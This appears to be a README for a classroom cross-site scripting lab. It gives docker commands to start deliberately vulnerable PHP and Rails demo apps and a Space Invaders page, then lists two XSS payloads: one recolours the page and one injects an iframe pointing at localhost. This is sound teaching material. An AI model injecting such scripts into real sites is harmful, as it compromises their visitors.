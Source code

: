 # unifbv.5SENO aula-03

### Start XSS PHP

- cd xss-php
- docker build -t xss-php .
- docker run -d -p 8080:80 xss-php

### Start XSS Rails

- cd xss-rails
- docker build -t xss-rails .
- docker run -d -p 3000:3000 xss-rails

### Start Space Invaders

- cd space-invaders
- docker build -t space-invaders .
- docker run -d -p 8081:80 space-invaders

### XSS change bg color

<script>
  document.body.style.backgroundColor = "red";
</script>

### XSS inject iframe

<script>
  var iframe    = document.createElement('iframe');
  iframe.src    = 'http://127.0.0.1:8000';
  iframe.width  = '800';
  iframe.height = '585';
  document.body.appendChild(iframe);
</script>

